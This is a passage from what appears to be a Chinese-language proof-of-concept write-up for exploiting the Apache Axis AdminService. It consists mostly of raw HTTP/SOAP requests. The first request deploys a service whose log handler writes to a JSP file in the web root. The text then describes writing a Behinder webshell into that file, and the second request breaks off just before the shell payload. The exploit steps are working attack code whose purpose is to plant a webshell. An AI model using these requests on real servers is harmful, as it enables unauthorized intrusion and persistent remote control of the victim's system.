 POC1：开启写文件功能，并指定写入路径 , **注意路径**

```
POST /axis/services/AdminService HTTP/1.1
Host: 192.168.0.78:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 777

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" >
  <soap:Body>
    <deployment
      xmlns="http://xml.apache.org/axis/wsdd/"
      xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
        <service name="randomAAA" provider="java:RPC">
<requestFlow>
            <handler type="java:org.apache.axis.handlers.LogHandler" >
                <parameter name="LogHandler.fileName" value="../webapps/ROOT/shell.jsp" />
                <parameter name="LogHandler.writeToConsole" value="false" />
            </handler>
        </requestFlow>
          <parameter name="className" value="java.util.Random" />
          <parameter name="allowedMethods" value="*" />
        </service>
    </deployment>
  </soap:Body>
</soap:Envelope>
```

![image-20220910115547702](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/imageimage-20220910115547702.png)

把冰蝎马写入文件内容 , 虽然影响是500 , 但是已经写进入了

```
POST /axis/services/RandomService HTTP/1.1
Host: 127.0.0.1:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 1157

<?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <api:in0><![CDATA[
```